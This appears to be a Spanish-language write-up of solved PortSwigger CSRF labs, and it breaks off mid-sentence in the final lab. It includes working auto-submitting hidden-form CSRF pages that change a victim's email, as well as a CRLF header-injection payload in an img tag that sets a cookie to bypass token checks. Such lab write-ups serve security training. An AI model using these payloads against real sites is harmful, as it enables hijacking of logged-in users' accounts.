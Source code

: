 ```yaml
---
title: CSRF | PortSwigger
---
```

Labs de Cross Site Request Forgery de PorSwigger hechos y explicados

### Lab: CSRF vulnerability with no defenses

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a29004703fe6654c256d41a0066008b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="root&#64;root&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<script>
document.forms[0].submit();
</script>
  </body>
</html>
<!-- De esta manera, creamos un boton submit que, sin que la victma lo vea (por eso el input type está en hidden), le cambia su direccion de email a root@root.com.
Como la victima está autenticada (por la cookie), el ataque se ejecuta automáticamente, entrando en juego el: -->
<script>
document.forms[0].submit();
</script>
<!-- El cual se utiliza para enviar automáticamente el formulario HTML oculto en nombre del usuario víctima cuando se carga la página web del atacante.. ejecutando la request como si fuese la victima.
```

### Lab: CSRF where token validation depends on request method

```
<!-- Hacemos lo mismo que en el paso anterior, pero esta vez cambiando el método de POST a GET -->
```
-------
### Lab: CSRF where token validation depends on token being present

```
<!-- Simplemente borramos el parámetro token CSRF de abajo de la request. De esta manera, bypaseamos el check.
```
--------
### Lab: CSRF where token is not tied to user session

```
<!-- El token CSRF de carlos vale para wiener y vice versa. por lo tanto, si introducimos el token de uno en la request del otro, inmediatamente le cambiaremos su correo.
```
------------
### Lab: CSRF where token is tied to non-session cookie


```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a6000100437b01ac057eb5100fc00cd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="p&#64;p&#46;com" />
      <input type="hidden" name="csrf" value="xgXn23NMo7bKzEl4zJijZAAbOVmZ4jWc" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0a6000100437b01ac057eb5100fc00cd.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=uibjEDETvHe2pRq2eXcUvTb08ft3cdsk%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
<!-- En este caso, el csrf va ligado al csrf token. Si cambias uno sin cambiar el otro, te tira error. No obstante, si cambiamos ambos campos por los del usuario carlos, si que funciona. 
Por lo tanto, aplicaremos el mismo ataque que antes. No obstante, necesitamos agregarle la csrf cookie. Para ello, tenemos este trozo de código: -->
?search=test%0d%0aSet-Cookie:%20csrfKey=uibjEDETvHe2pRq2eXcUvTb08ft3cdsk%3b%20SameSite=None
<!-- El cual se encargará de hacerlo. (Importante: Meter la cookie del usuario atacante, así como el csrf key). Finalmente, dentro del <img src> hacemos una request a search (Como si buscaramos algo en la barra de busqueda de la página principal) para cargar la cookie y, como esa imagen no existe, el error se activará y le cambiará el correo al usuario victima.
```
--------
### Lab: CSRF where token is duplicated in cookie

```
<!-- Lo mismo que antes, pero ahora, en lugar de hacer Cookie:%20csrfKey en el img src, cambiam
```